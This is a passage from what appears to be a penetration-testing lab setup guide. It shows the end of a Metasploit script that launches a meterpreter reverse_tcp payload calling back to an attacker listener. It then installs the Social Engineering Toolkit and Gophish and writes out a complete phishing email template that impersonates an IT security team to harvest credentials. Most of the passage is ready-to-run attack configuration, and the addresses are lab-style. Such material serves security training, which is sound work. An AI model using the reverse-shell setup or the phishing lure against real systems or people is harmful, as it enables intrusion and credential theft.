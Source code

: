 ```bash
set RHOSTS 10.0.2.101
set USERNAME vulnerable
set PASSWORD password
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 10.0.2.15
run
EOF
```

### 5. Social Engineering Tools

#### Phishing Campaign Setup
```bash
# Install Social Engineering Toolkit
sudo apt install -y set

# Install Gophish
cd /opt
sudo wget https://github.com/gophish/gophish/releases/download/v0.12.1/gophish-v0.12.1-linux-64bit.zip
sudo unzip gophish-v0.12.1-linux-64bit.zip
sudo chmod +x gophish
sudo rm gophish-v0.12.1-linux-64bit.zip

# Create phishing template
sudo tee /opt/phishing-template.html > /dev/null <<'EOF'
<!DOCTYPE html>
<html>
<head>
    <title>Security Update Required</title>
    <style>
        body { font-family: Arial, sans-serif; margin: 40px; }
        .container { max-width: 600px; margin: 0 auto; }
        .header { background-color: #d32f2f; color: white; padding: 20px; text-align: center; }
        .content { padding: 20px; border: 1px solid #ddd; }
        .button { background-color: #1976d2; color: white; padding: 10px 20px; text-decoration: none; border-radius: 5px; }
    </style>
</head>
<body>
    <div class="container">
        <div class="header">
            <h2>URGENT: Security Update Required</h2>
        </div>
        <div class="content">
            <p>Dear User,</p>
            <p>Our security team has detected suspicious activity on your account. Please click the link below to verify your credentials and secure your account.</p>
            <p><a href="{{.URL}}" class="button">Verify Account Now</a></p>
            <p>If you do not complete this verification within 24 hours, your account may be suspended.</p>
            <p>Thank you,<br>IT Security Team</p>
        </div>
    </div>
</body>
</html>
EOF
```
